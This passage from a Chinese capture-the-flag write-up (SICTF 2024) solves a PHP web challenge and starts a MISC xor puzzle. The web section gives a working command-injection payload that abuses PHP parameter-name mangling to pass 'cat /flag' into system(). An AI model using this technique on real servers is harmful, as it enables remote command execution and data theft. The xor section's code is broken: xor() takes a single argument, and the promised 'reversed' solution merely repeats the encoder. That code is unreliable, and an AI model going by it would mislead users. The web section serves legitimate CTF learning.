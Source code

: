 ```
echo "<br>h = ".$h;
echo "<br>i = ".$i;
//system(get_defined_vars()_GET[W3lc0me_t0_SICTF.2024])

?>

Warning: Cannot call get_defined_vars() dynamically in D:\phpstudy_pro\WWW\index.php on line 13

Warning: system(): Cannot execute a blank command in D:\phpstudy_pro\WWW\index.php on line 13

a = base64_decode
b = Z2V0X2RlZmluZWRfdmFycw==
c = X0dFVA==
e = VnpOc1l6QnRaVjkwTUY5VFNVTlVSaTR5TURJMA==
f = get_defined_vars
g = W3lc0me_t0_SICTF.2024
h = YzNsemRHVnQ=
i = system
```

发现命令就是读取并用system函数执行get传入的W3lc0me_t0_SICTF.2024参数。如果只是按照正常的方式传参，是会报错的。此处有一个知识点。

当 `PHP版本小于8`时，如果参数中出现中括号 `[`，中括号会被转换成下划线 `_`，但是会出现转换错误导致接下来如果该参数名中还有 `非法字符`并不会继续转换成下划线 `_`，也就是说如果中括号 `[`出现在前面，那么中括号 `[`还是会被转换成下划线 `_`，但是因为出错导致接下来的非法字符并不会被转换成下划线 `_`。

所以payload：`/wh3re_1s_thi5_fl4g.php?W3lc0me_t0[SICTF.2024=cat /flag`，在t0之后用 `[`，会被转换为 `_`，使后面用 `.`的时候不会被转换为 `_`。getflag

### MISC

#### 派森

根据中文得

```
from operator import xor
from tqdm import trange
flag = ''
enc = []
for i in trange(0 ,len(flag),4):
    enc.append(xor(ord(flag[i]), ord(flag[i+2])))
    enc.append(xor(ord(flag[i+1]), ord(flag[i+3])))
    enc.append(xor(ord(flag[i+2])))
    enc.append(xor(ord(flag[i+3])))
print(enc)
#enc = [16, 29, 67, 84, 31, 75, 89, 48, 30, 111, 107, 48, 49, 52, 95, 67, 6, 2, 110, 51, 44, 69, 95, 118, 74, 45, 121, 95, 70, 84, 49, 49, 0, 0, 33, 33, 0, 10, 113, 125]


```

再逆向得

```
from operator import xor
from tqdm import trange
flag = ''
enc = []
for i in trange(0 ,len(flag),4):
    enc.append(xor(ord(flag[i]), ord(flag[i+2])))
    enc.append(xor(ord(flag[i+1]), ord(flag[i+3])))
    enc.append(xor(ord(flag[i+2])))
    enc.append(xor(ord(flag[i+3])))
print(enc)
#enc = [16, 29, 67, 84, 31, 75, 89, 48, 30, 111, 107, 48, 49, 52, 95, 67, 6, 2, 110, 51, 44, 69, 95, 118, 74, 45, 121, 95, 70, 84, 49, 49, 0, 0, 33, 33, 0, 10, 113, 125]
```
